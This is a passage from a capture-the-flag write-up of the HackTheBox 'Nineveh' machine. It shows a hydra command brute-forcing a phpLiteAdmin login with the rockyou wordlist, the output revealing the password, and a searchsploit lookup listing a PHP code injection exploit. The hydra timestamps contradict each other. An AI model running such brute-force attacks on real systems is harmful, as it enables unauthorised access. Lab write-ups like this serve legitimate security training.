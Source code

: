 ```
===============================================================
```

The `/secure_notes` directory gives us the following image.

![nnv-1](https://user-images.githubusercontent.com/87711310/213518678-f56d83b3-0c88-48a6-9174-24964206bb1e.png)

This might be what the comment “check your secret folder” was referring to. Save the image, it might have a secret stored in it. We’ll look into that later.

The `/db` directory leads us to the following page.

![n-8](https://user-images.githubusercontent.com/87711310/213497286-aaf5eedd-633f-424c-9b01-1beb0c24188c.png)

I tried the default password “admin” for phpLiteAdmin v1.9 but that did not work.

Let’s try brute-forcing the password. First, intercept the request in Burp to get the error you get when you enter wrong credentails.

```
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password."
```
We get back the following result.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Nineveh]
└─$ hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password."

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-19 12:39:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password.
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-28 12:49:10
```

We got a valid password! Use password123 to log into the application. Since this is an off the shelf application, let’s use searchsploit to find out if it is associated with any vulnerabilities.
```
searchsploit phpLiteAdmin 1.9
```

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Nineveh]
└─$ searchsploit phpLiteAdmin 1.9
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                                                            | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                                                             | php/webapps/39714.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
